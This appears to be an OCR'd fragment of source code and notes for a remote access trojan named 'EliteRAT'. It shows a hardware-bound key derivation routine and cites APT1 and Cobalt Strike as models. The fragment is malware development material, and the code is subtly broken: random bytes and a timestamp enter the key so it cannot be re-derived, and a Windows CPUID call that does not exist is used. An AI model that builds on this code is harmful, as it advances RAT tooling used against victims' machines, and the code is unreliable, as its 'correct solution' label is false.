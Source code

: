 **Research Reference:**
- **NIST SP 800-132** - "Each user should have unique salt"
- **APT1 analysis** - Used hardware-bound keys
- **Cobalt Strike** - Uses per-installation unique keys

**CORRECT Solution (Research-Backed):**
```python
def _derive_master_key(self) -> bytes:
    """
    Derive master key bound to hardware
    
    Research:
    - NIST SP 800-132 (Recommendation for Password-Based Key Derivation)
    - NSA Suite B Cryptography (Hardware binding)
    - APT1 "Comment Crew" - Used CPU-bound keys
    """
    
    # Get hardware identifiers (unique per system)
    hardware_id = self._get_hardware_id()
    
    # Use multiple entropy sources
    entropy_sources = [
        os.urandom(32),  # OS random
        secrets.token_bytes(32),  # Secrets module
        hardware_id.encode(),  # Hardware binding
        str(datetime.now()).encode(),
    ]
    
    # Combine entropy
    combined = b''.join(entropy_sources)
    
    # Generate unique salt from hardware
    unique_salt = hashlib.sha256(
        hardware_id.encode() + b'EliteRAT_Salt'
    ).digest()
    
    # Derive key using PBKDF2 with HIGH iteration count
    kdf = PBKDF2(
        algorithm=hashes.SHA256(),
        length=32,
        salt=unique_salt,  # UNIQUE per installation
        iterations=600000,  # OWASP 2023 recommendation (was 100k)
        backend=self.backend
    )
    
    return kdf.derive(combined)

def _get_hardware_id(self) -> str:
    """
    Get unique hardware identifier
    Combines: CPU ID, MAC address, Disk serial, BIOS UUID
    """
    identifiers = []
    
    if sys.platform == 'win32':
        # Windows - use WMI without subprocess
        import ctypes
        from ctypes import wintypes
        
        # Get CPU ID using CPUID instruction
        cpu_info = (ctypes.c_uint32 * 4)()
        ctypes.windll.kernel32.__cpuid(cpu_info, 1)
        cpu_id = f"{cpu_info[3]:08x}{cpu_info[0]:08x}"
        identifiers.append(cpu_id)
```